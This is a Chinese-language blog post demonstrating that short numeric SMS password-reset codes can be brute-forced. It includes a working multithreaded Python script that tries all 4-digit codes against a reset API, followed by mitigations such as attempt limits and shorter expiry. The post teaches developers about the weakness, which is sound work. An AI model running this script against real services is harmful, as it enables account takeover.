 ```yaml
---
title: 找回密碼之簡訊驗證碼強度安全問題
author: ZhgChgLi
date: 2021-03-14T23:57:38.256Z
categories: ZRealm Dev.
tags: [ios-app-development,hacker,web-security,password-security,security-token]
---
```


### 找回密碼之簡訊驗證碼強度安全問題

使用 Python 展示暴力破解的嚴重性
![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg "Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)")
### 前言

本文沒什麼資安技術含量，單純是日前在使用某平台網站時的突發奇想；想說順手測看看安全性，結果發現的問題。

在使用網站、APP 服務的忘記密碼找回功能時；一般會有兩個選項，一是輸入帳號、Email，然後會寄含有 Token 的重設密碼頁面連結到信箱，點擊後打開頁面就能重設密碼，這部分沒什麼問題，除非像 [之前那篇](%E6%8F%AD%E9%9C%B2%E4%B8%80%E5%80%8B%E5%B9%BE%E5%B9%B4%E5%89%8D%E7%99%BC%E7%8F%BE%E7%9A%84%E5%B7%A7%E5%A6%99%E7%B6%B2%E7%AB%99%E6%BC%8F%E6%B4%9E-142244e5f07a) 文章所說，設計上有漏洞才會有問題。

另一個找回密碼的方式是輸入綁定的手機號碼（多半用在 APP 服務），然後會寄出簡訊驗證碼到手機，完成驗證碼輸入即可重設密碼；但為了便利性，多半的服務都是使用純數字作為驗證碼，另外也因為在 iOS ≥ 11 之後增加 [Password AutoFill](ios-%E8%B7%A8%E5%B9%B3%E5%8F%B0%E5%B8%B3%E8%99%9F%E5%AF%86%E7%A2%BC%E6%95%B4%E5%90%88%E5%8A%A0%E5%BC%B7%E7%99%BB%E5%85%A5%E9%AB%94%E9%A9%97-948ed34efa09) 功能，當手機收到驗證碼後鍵盤會自動判讀並跳出提示。
![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow) ，蘋果並沒有給出驗證碼自動填入的判讀格式規則；但我看幾乎所有能支援自動填入的服務都是使用純數字，推測應該是只能用數字不能使用數字英文夾雜的複雜組合。
### 問題

因數字密碼的組合存在暴力破解的可能性，尤其是 4 位密碼；組合只有 0000~9999，10,000 種組合；使用多個 thread 多台機器就能分組暴力破解。

假設驗證請求需要 0.1 秒回應，10,000 個組合 = 10,000 次請求
```
**破解所需嘗試時間：** ((10,000 * 0.1) / thread 數) **秒**
```

就算不開 thread 也只需要 16 多分種就能嘗試出正確的簡訊驗證碼。
> _除密碼長度、複雜度不足之外，還有個問題是驗證碼未設嘗試上限、有效期限太長這兩個問題。_

### 組合

綜合上述，此資安問題常見於 APP 端；因網頁服務多半都會在嘗試錯誤多次後加上圖形驗證碼驗證或在請求重設密碼時需多輸入安全問題，增加發送驗證請求的困難度；另外網頁服務的驗證若沒有前後端分離，變成每次驗證請求都要拿整個網頁，拉長請求回應時間。

APP 端因流程設計及方便使用者，多半會簡化重設密碼流程、有的 APP 甚至是通過手機號碼驗證就能登入；如果在 API 端沒有做防護則會造成資安漏洞。
### 實踐
> ⚠️警告⚠️ 本文僅作展示此安全問題的嚴重性，請勿拿去做壞事。
#### 嗅探驗證請求 API

萬事都從嗅探開始，這部分可參考之前的文章「 [APP有用HTTPS傳輸，但資料還是被偷了。](app%E6%9C%89%E7%94%A8https%E5%82%B3%E8%BC%B8-%E4%BD%86%E8%B3%87%E6%96%99%E9%82%84%E6%98%AF%E8%A2%AB%E5%81%B7%E4%BA%86-46410aaada00) 」、「 [使用 Python+Google Cloud Platform+Line Bot 自動執行例行瑣事](%E4%BD%BF%E7%94%A8-python-google-cloud-platform-line-bot-%E8%87%AA%E5%8B%95%E5%9F%B7%E8%A1%8C%E4%BE%8B%E8%A1%8C%E7%91%A3%E4%BA%8B-70a1409b149a) 」第一篇文章看原理建議使用第二篇文章的 [Proxyman](https://proxyman.io/) 進行嗅探。
![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

如果是前後端分離的網站服務也能使用 Chrome -> 檢查 -> Network -> 查看在送出驗證碼後發了什麼請求。
![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**這邊假設得到的檢查驗證碼請求是：**
```
POST [https://zhgchg.li/findPWD](https://zhgchg.li/findPWD)
```

**Response：**
```
{
   "status":fasle
   "msg":"驗證錯誤"
}
```
#### 撰寫暴力破解 Python 腳本
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

執行腳本後我們得到：
![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)
```
驗證碼等於： **1743**
```

將 `1743` 帶入重設密碼更改掉原始密碼或直接登入帳號。
> Bigo!
### 解決之道
- 密碼重設增加更多資訊驗證（如：生日、安全問題）
- 增加驗證碼長度（如 Apple 6 碼數字）、增加驗證碼複雜度（如果不影響 AutoFill 功能）
- 驗證碼嘗試錯誤大於 3 次後使其失效，需請使用者重新發送驗證碼
- 驗證碼有效時限縮短
- 驗證碼嘗試錯誤過多次鎖定裝置、增加圖形驗證碼
- APP 多做 SSL Pining、傳輸加解密（防止嗅探）

### 延伸閱讀
- [揭露一個幾年前發現的巧妙網站漏洞](%E6%8F%AD%E9%9C%B2%E4%B8%80%E5%80%8B%E5%B9%BE%E5%B9%B4%E5%89%8D%E7%99%BC%E7%8F%BE%E7%9A%84%E5%B7%A7%E5%A6%99%E7%B6%B2%E7%AB%99%E6%BC%8F%E6%B4%9E-142244e5f07a)
- [如何打造一場有趣的工程CTF競賽](%E5%A6%82%E4%BD%95%E6%89%93%E9%80%A0%E4%B8%80%E5%A0%B4%E6%9C%89%E8%B6%A3%E7%9A%84%E5%B7%A5%E7%A8%8Bctf%E7%AB%B6%E8%B3%BD-729d7b6817a4)
- [APP有用HTTPS傳輸，但資料還是被偷了。](app%E6%9C%89%E7%94%A8https%E5%82%B3%E8%BC%B8-%E4%BD%86%E8%B3%87%E6%96%99%E9%82%84%E6%98%AF%E8%A2%AB%E5%81%B7%E4%BA%86-46410aaada00)
- [使用 Python+Google Cloud Platform+Line Bot 自動執行例行瑣事](%E4%BD%BF%E7%94%A8-python-google-cloud-platform-line-bot-%E8%87%AA%E5%8B%95%E5%9F%B7%E8%A1%8C%E4%BE%8B%E8%A1%8C%E7%91%A3%E4%BA%8B-70a1409b149a)

[Like Z Realm's work](https://cdn.embedly.com/widgets/media.html?src=https%3A%2F%2Fbutton.like.co%2Fin%2Fembed%2Fzhgchgli%2Fbutton&display_name=LikeCoin&url=https%3A%2F%2Fbutton.like.co%2Fzhgchgli&image=https%3A%2F%2Fstorage.googleapis.com%2Flikecoin-foundation.appspot.com%2Flikecoin_store_user_zhgchgli_main%3FGoogleAccessId%3Dfirebase-adminsdk-eyzut%2540likecoin-foundation.iam.gserviceaccount.com%26Expires%3D2430432000%26Signature%3DgFRSNto%252BjjxXpRoYyuEMD5Ecm7mLK2uVo1vGz4NinmwLnAK0BGjcfKnItFpt%252BcYurx3wiwKTvrxvU019ruiCeNav7s7QUs5lgDDBc7c6zSVRbgcWhnJoKgReRkRu6Gd93WvGf%252BOdm4FPPgvpaJV9UE7h2MySR6%252B%252F4a%252B4kJCspzCTmLgIewm8W99pSbkX%252BQSlZ4t5Pw22SANS%252BlGl1nBCX48fGg%252Btg0vTghBGrAD2%252FMEXpGNJCdTPx8Gd9urOpqtwV4L1I2e2kYSC4YPDBD6pof1O6fKX%252BI8lGLEYiYP1sthjgf8Y4ZbgQr4Kt%252BRYIicx%252Bg6w3YWTg5zgHxAYhOINXw%253D%253D&key=a19fcc184b9711e1b4764040d3dc5c07&type=text%2Fhtml&schema=like)

有任何問題及指教歡迎 [與我聯絡](https://www.zhgchg.li/contact) 。



+-----------------------------------------------------------------------------------+

| **[View original post on Medium](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190) - Converted by [ZhgChgLi](https://blog.zhgchg.li)/[ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown)** |

+-----------------------------------------------------------------------------------+
